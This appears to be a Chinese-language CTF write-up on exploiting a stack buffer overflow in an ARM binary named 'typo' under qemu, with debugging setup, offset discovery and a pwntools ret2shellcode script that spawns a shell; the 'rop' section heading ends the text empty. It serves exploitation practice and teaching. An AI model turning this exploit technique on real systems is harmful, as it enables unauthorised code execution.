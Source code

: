 # ARM Stack OverFlow


## 0x00 ARM PWN 知识准备
### Qemu 调试
>在1234端口开启gdbserver `-g` 1234    

`qemu-arm -g 1234 ./binary` 

>gdb-multiarch连接gdbserver
```
gdb-multiarch 
pwndbg> set architecture arm
pwndbg> set endian little
pwndbg> target remote 127.0.0.1:1234
```



## 0x01 PWN

### 1.题目

Binary： [typo](./typo)

1. ret2shellcode：通过shellcode解题，通过栈溢出利用，获取RCE。   
2. rop：通过构造rop解题，通过栈溢出利用，获取RCE。 

> 开了NX，但是qemu不支持nx，相当于没开启。  
```
$ pwn checksec  ./typo
[*] '/home/mi/CTF/pwn-exercise/linux_arm_stack/arm_pwn_typo/typo'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8000)
```
32位 ARM ELF
```
$ file typo
typo: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=211877f58b5a0e8774b8a3a72c83890f8cd38e63, stripped
```

### 2.分析

####  运行
```
$ qemu-arm  ./typo
Let's Do Some Typing Exercise~
Press Enter to get start;
Input ~ if you want to quit

------Begin------
yearly

```
- 输入点1：通过简单的测试运行，如果不输入指定字符（`\n`），会退出，这无法产生溢出。  
- 输入点2：回车后，可再次输入，过长字符产生`Segmentation fault (core dumped)`报错，可以判定这个为溢出点。    


#### 调试
>启动调试：`qemu-arm -g 1234 ./typo`

```
gdb-multiarch 
pwndbg> set architecture arm
pwndbg> set endian little
pwndbg> target remote 127.0.0.1:1234
```
#### 判断溢出长度
通过pwntools cyclic工来判断溢出长度，通过规则的字符串输入，再根据ret的地址字符来比对，判断溢出长度。   

```
>>> from pwn import *
>>> cyclic(200)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
```
将上述字符串输入到输入点2，产生溢出，gdb异常断下。     
```
Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────[ REGISTERS ]─────────────────────────────
 R0   0x0
*R1   0xf6ffee64 ◂— 0x61616161 ('aaaa')
*R2   0x7e
 R3   0x0
*R4   0x62616162 ('baab')
 R5   0x0
 R6   0x0
 R7   0x0
 R8   0x0
*R9   0xa5ec ◂— push   {r3, r4, r5, r6, r7, r8, sb, lr}
*R10  0xa68c ◂— push   {r3, r4, r5, lr}
*R11  0x62616163 ('caab')
 R12  0x0
*SP   0xf6ffeed8 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
*PC   0x62616164 ('daab')
──────────────────────────────[ DISASM ]──────────────────────────────
Invalid address 0x62616164
──────────────────────────────[ STACK ]───────────────────────────────
00:0000│ sp 0xf6ffeed8 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
01:0004│    0xf6ffeedc ◂— 'faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
02:0008│    0xf6ffeee0 ◂— 'gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
03:000c│    0xf6ffeee4 ◂— 'haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
04:0010│    0xf6ffeee8 ◂— 'iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
05:0014│    0xf6ffeeec ◂— 'jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
06:0018│    0xf6ffeef0 ◂— 'kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
07:001c│    0xf6ffeef4 ◂— 'laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
────────────────────────────[ BACKTRACE ]─────────────────────────────
 ► f 0 0x62616164
──────────────────────────────────────────────────────────────────────
```
PC寄存器就是ret的地址，为'daab'，以此判断padding为112。
```
>>> cyclic_find('daab')
112
```


## 0x02 EXP


### ret2shellcode

> 1. qemu栈地址可能会有变化，ret2shellcode不算稳定，需要调试看当前环境的地址空间。   
> 2. 使用pwntools的shellcraft.sh如果报错，arm不支持，解决： `sudo apt-get install binutils-arm*`

exp file : [exp.py](./exp.py)
```
from  pwn import *

context(arch='arm',log_level='debug')
io = process(['qemu-arm','./typo'])
#io = process(['qemu-arm',"-g","1234",'./typo'])

io.recv()
io.send("\n")
io.recv()
io.sendline(asm(shellcraft.sh()).ljust(112,b'a') + p32(0xf6fff174))
io.interactive()
```

### rop